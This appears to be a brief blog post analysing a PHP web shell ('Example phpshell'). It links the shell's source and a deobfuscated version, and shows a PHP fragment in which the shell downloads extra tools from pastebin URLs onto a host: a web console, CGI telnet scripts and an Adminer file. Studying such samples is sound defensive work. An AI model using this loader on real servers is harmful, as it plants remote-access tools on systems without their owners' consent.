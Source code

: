 ```yaml
---
layout: post
title:  "Example phpshell"
date:   2020-04-24 12:30:45 +0100
categories:
---
```


# src:

https://gist.github.com/delyee/bd017c6bb9473191b7eb312f1fce3d1d

# cnc?

<blockquote class="imgur-embed-pub" lang="en" data-id="a/mpcPphv"><a href="//imgur.com/a/mpcPphv"></a></blockquote><script async src="//s.imgur.com/min/embed.js" charset="utf-8"></script>

# other utils

```php
if ($name === "adminer") $get = array(
        "https://www.adminer.org/static/download/4.3.1/adminer-4.3.1.php",
        "adminer.php"
    );
    elseif ($name === "webconsole") $get = array(
        "https://pastebin.com/raw/2i96fDCN",
        "webconsole.php"
    );
    elseif ($name === "cgitelnet1") $get = array(
        "https://pastebin.com/raw/Lj46KxFT",
        "idx_cgi/cgitelnet1.idx"
    );
    elseif ($name === "cgitelnet2") $get = array(
        "https://pastebin.com/raw/aKL2QWfS",
        "idx_cgi/cgitelnet2.idx"
    );
    elseif ($name === "LRE") $get = array(
        "https://pastebin.com/raw/PVPfA21i",
        "makman.php"
    );
```

# deobf:

<script src="https://gist.github.com/delyee/b564cb0b4d5230d748d6c6e0b83691eb.js"></script>



